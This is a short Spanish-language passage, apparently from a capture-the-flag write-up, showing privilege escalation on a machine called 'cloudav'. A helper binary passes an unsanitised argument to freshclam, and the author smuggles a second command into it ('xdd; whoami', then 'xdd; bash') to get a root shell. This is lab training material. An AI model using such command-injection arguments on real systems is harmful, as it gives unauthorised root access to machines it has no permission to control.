 ```bash
scanner@cloudav:~$ ./update_cloudav 'xdd; whoami'
ERROR: /var/log/clamav/freshclam.log is locked by another process
ERROR: Problem with internal logger (UpdateLogFile = /var/log/clamav/freshclam.log).
root
scanner@cloudav:~$ 
```

Como no hay sanitizacion del codigo y nos pide un argumento al ejecutar `freshclam` ya que en el codigo esta poniendo la ruta absoluta y podemos concatenar un comando vamos a convertirnos como el usuario root por que le estamos diciendo que `'xdd; bash'` es un argumento

```bash
scanner@cloudav:~$ ./update_cloudav 'xdd; bash'
ERROR: /var/log/clamav/freshclam.log is locked by another process
ERROR: Problem with internal logger (UpdateLogFile = /var/log/clamav/freshclam.log).
root@cloudav:~# whoami
root
root@cloudav:~# id
uid=0(root) gid=0(root) groups=0(root),1001(scanner)
root@cloudav:~# 
```























































